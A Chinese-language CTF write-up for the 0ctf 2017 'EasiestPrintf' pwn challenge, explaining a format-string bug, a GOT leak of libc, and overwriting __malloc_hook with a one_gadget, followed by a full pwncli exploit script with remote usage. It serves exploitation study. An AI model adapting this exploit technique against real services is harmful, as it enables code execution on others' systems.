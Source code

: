 ```yaml
---
title: 0ctf_2017_EasiestPrintf
date: 2022-12-07 18:39:03
tags: [CTF, BUU, PWN, WP]
categories: 
    - CTF
    - BUU
    - Pwn
comment: true
---
```


# 0x01 分析
![](1.png)
- 没开PIE

![](2.png)
- 可以leak任意地址指向的数据

![](3.png)
- 存在格式化字符串漏洞

# 0x02 利用
- 首先leak got表指向的libc函数地址
- 利用格式字符串漏洞修改__malloc_hook位one_gadget
- 通过printf打印超过65536个字符来调用malloc

# 0x03 Exp
``` Python
#!/usr/bin/env python3
# Date: 2022-12-07 16:57:38
# Link: https://github.com/RoderickChan/pwncli
# Usage:
#     Debug : python3 exp.py debug elf-file-path -t -b malloc
#     Remote: python3 exp.py remote elf-file-path ip:port

from pwncli import *
cli_script()


io: tube = gift.io
elf: ELF = gift.elf

libc=ELF("../libc/libc-2.23_32.so")

# one_gadgets: list = get_current_one_gadget_from_libc(more=False)
CurrentGadgets.set_find_area(find_in_elf=True, find_in_libc=False, do_initial=False)

read_got=elf.got['read']
exit_got=elf.got['exit']
rl()
sl(str(read_got))
read_addr=int(ru("\n",drop=True),16)
base=read_addr-libc.sym['read']
mh=base+libc.sym['__malloc_hook']
one=base+0x3a812
ru("Good Bye")
print(hex(base))
print(hex(one))
print(hex(mh))
p=fmtstr_payload(7,{mh:one})+b"%65599c"
sl(p)
stop()
ia()
```

# 0x04 总结
- printf打印超过65536个字符时，内部会调用malloc